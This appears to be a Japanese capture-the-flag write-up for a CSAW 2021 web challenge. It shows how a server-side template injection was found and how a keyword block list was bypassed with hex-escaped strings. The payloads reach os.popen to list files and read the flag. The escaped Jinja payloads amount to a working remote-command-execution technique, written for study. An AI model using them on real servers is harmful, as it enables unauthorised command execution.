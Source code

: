 # Writeup

[http://web.chal.csaw.io:5000](http://web.chal.csaw.io:5000/)にアクセスする。

入力フォームが表示されるので、試しに`{{7*7}}`と入力すると`49`という演算結果が表示された。

![](img/2021-09-12-00-20-53.png)

![](img/2021-09-12-00-21-01.png)

SSTIが使えそうなことが分かった。

```
{{''.__class__}}
```

と入力すると、以下のメッセージが表示された。

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```

これらの文字列を回避したpayloadを考えればよい。

ascii文字列を使って文字列チェックを回避する。(メッセージにはないが、`import`も除外対象だったので回避する。)

```
{{request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimp\x6frt\x5f\x5f"]('\x6fs')["popen"]("ls")["read"]()}}

Hello app.py flag.txt templates

{{request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimp\x6frt\x5f\x5f"]('\x6fs')["popen"]("cat flag.txt")["read"]()}}
```

<!-- flag{m0mmy_s33_1m_4_r34l_n1nj4} -->
